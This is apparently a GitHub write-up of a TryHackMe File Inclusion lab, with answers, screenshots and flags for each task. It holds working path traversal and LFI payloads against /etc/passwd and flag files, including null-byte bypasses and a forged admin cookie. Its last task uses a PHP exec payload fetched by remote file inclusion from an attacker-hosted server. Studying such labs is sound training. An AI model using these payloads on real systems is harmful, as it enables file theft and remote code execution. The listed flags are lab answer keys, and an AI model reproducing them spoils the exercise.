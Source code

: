 # File Inclusion

![banner](imgs/File%20Inclusion/roomBanner.png)

## Room objectives

- what is File Inclusion vulnerability?
- how it risky?
- what is path traversal vulnerability?

## Tasks

### Task 1 : Introduction

<details>
<summary>
Let's continue to the next section to deploy the attached VM.
</summary>

```
No answer needed 
```

</details>

---

### Task 2 : Deploy the VM

<details>
<summary>
Once you've deployed the VM, please wait a few minutes for the webserver to start, then progress to the next section!
</summary>

```
No answer needed 
```

</details>

---

### Task 3 : Path Traversal

<details>
<summary>
What function causes path traversal vulnerabilities in PHP?
</summary>

```
file_get_contents
```

</details>

---

### Task 4 : Local File Inclusion - LFI #1

<details>
<summary>
Give Lab #1 a try to read /etc/passwd. What would the request URI be?
</summary>

<br>

![T4_1](imgs/File%20Inclusion/T4_1.png)

```
/lab1.php?file=etc/passwd
```

</details>

<br>

<details>
<summary>
In Lab #2, what is the directory specified in the include function?
</summary>

<br>

![T4_2](imgs/File%20Inclusion/T4_2.png)

```
includes
```

</details>

---

### Task 5 : Local File Inclusion - LFI #2

<details>
<summary>
Give Lab #3 a try to read /etc/passwd. What is the request look like?
</summary>

<br>

![T5_1](imgs/File%20Inclusion/T5_1.png)

```
/lab3.php?file=../../../../etc/passwd%00
```

</details>

<br>

<details>
<summary>
Which function is causing the directory traversal in Lab #4?
</summary>

<br>

![T5_2](imgs/File%20Inclusion/T5_2.png)

```
file_get_contents
```

</details>

<br>

<details>
<summary>
Try out Lab #6 and check what is the directory that has to be in the input field?
</summary>

<br>

![T5_3](imgs/File%20Inclusion/T5_3.png)

```
THM-profile
```

</details>

<br>

<details>
<summary>
Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?
</summary>

<br>

![T5_4](imgs/File%20Inclusion/T5_4.png)

```
12.04
```

</details>

---

### Task 6 : Remote File Inclusion - RFI

<details>
<summary>
We showed how to include PHP pages via RFI. Do research on how to get remote command execution (RCE), and answer the question in the challenge section.
</summary>

```
No answer needed 
```

</details>

---

### Task 7 : Remediation

<details>
<summary>
Ready for the challenges?
</summary>

```
No answer needed 
```

</details>

---

### Task 8 : Challenge

<details>
<summary>
Capture Flag1 at /etc/flag1
</summary>

<br>

- first of all after test invalid input we get error massage

- challenge have hint to use POST request
![T8_1](imgs/File%20Inclusion/T8_1.png)
- after request the flag file using `../../../../etc/flag1`
![T8_1](imgs/File%20Inclusion/T8_1_2.png)
- and we got the 1st flag
![T8_1](imgs/File%20Inclusion/T8_1_2_3.png)

```
F1x3d-iNpu7-f0rrn
```

</details>

<br>

<details>
<summary>
Capture Flag2 at /etc/flag2
</summary>

<br>

- after access the challenge we found that we are not admin
- by using burp to intercept the request we can notice cookie called `THM` edit it to admin
![T8_2](imgs/File%20Inclusion/T8_2.png)
![T8_2](imgs/File%20Inclusion/T8_2_2.png)
- after that we write our payload `../../../../etc/flag2%00.php` and we got the 2nd flag
![T8_2](imgs/File%20Inclusion/T8_2_3.png)
![T8_2](imgs/File%20Inclusion/T8_2_4.png)

```
c00k13_i5_yuMmy1
```

</details>

<br>

<details>
<summary>
Capture Flag3 at /etc/flag3
</summary>

<br>

- after try to enter our payload we notice a filter
![T8_3](imgs/File%20Inclusion/T8_3_1.png)
- after all tries to bypass we can't get out of at so we changed the method to `POST`
![T8_3](imgs/File%20Inclusion/T8_3_2.png)
- and put the payload again `../../../../../etc/flag3%00`
![T8_3](imgs/File%20Inclusion/T8_3_3.png)
- we got the 3rd flag
![T8_3](imgs/File%20Inclusion/T8_3_4.png)

```
P0st_1s_w0rk1in9
```

</details>

<br>

<details>
<summary>
Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?
</summary>

<br>

- first of all let's prepare our payload

```php
<?php
print exec('hostname');
?>
```

![T8_4](imgs/File%20Inclusion/T8_4_1.png)

- we lunched our local server using python `python3 -m http.server`
![T8_4](imgs/File%20Inclusion/T8_4_2.png)
- get our local IP
![T8_4](imgs/File%20Inclusion/T8_4_3.png)
- use this to exploit RFI with our payload `http://10.10.54.5/playground.php?file=http://10.10.83.180:8000/host.txt`
![T8_4](imgs/File%20Inclusion/T8_4_4.png)

```
lfi-vm-thm-f8c5b1a78692 
```

</details>
